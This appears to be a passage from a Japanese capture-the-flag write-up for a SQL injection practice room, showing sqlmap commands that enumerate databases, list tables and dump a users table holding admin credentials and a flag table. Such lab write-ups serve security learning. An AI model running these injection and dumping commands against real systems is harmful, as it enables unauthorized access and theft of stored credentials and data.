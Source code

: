 sqhell_4 データベースを発見。

```shell
sqlmap -r ./req-user.txt -p id --dbs

available databases [2]:
[*] information_schema
[*] sqhell_4
```

users テーブル

```shell
sqlmap -r ./req-user.txt -D sqhell_4 --tables --batch

Database: sqhell_4
[1 table]
+-------+
| users |
+-------+
```

？？？

```shell
sqlmap -r ./req-user.txt -D sqhell_4 --dump-all --batch

Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```

## /post

```shell
sqlmap -r ./req-post.txt --dbs --batch

available databases [2]:
[*] information_schema
[*] sqhell_5
```

```shell
sqlmap -r ./req-post.txt -D sqhell_5 --tables --batch

Database: sqhell_5
[3 tables]
+-------+
| flag  |
| posts |
| users |
+-------+
```
